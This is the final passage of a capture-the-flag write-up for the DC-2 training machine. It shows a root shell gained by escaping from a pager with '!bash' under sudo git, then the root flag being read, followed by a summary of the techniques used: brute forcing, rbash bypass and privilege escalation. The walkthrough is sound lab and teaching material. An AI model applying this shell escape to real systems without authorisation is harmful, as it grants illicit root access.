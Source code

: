 In the pager, I executed:

```shellscript
!bash
```

This provided a root shell.

## Final Flag

With root access, I navigated to the root directory and retrieved the final flag:

```shellscript
cd /root
cat final-flag.txt
```

**Final Flag:**

```plaintext
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  / 
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/  
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___/    

Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

## Summary

The DC-2 challenge demonstrated several key penetration testing concepts:

1. **Reconnaissance**: Network discovery and service enumeration
2. **Web Application Security**: WordPress vulnerability assessment
3. **Password Attacks**: Custom wordlist generation and brute forcing
4. **Shell Restrictions**: Bypassing rbash limitations
5. **Privilege Escalation**: Exploiting sudo permissions with git


The challenge emphasized the importance of following hints and thinking creatively about different attack vectors when direct exploitation paths are blocked.

